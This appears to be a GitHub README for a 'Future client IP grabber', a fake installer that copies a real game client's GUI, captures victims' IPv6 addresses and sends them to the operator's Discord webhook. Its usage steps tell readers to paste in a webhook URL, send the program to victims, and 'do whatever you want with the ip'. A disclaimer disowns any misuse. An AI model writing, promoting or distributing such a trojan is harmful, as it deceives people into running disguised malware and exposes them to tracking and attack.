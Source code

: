 <p align="center">
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/built-with-swag.svg" alt="forthebadge"/></a>
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/mom-made-pizza-rolls.svg" alt="forthebadge"/></a>
</p>


<h1 align="center">💫 Future client ip grabber 💫</h1>
<h3 align="center">If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.
</h3>
<h4 align="center">⭐ Don't forget to leave a star! ⭐</h4>

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.

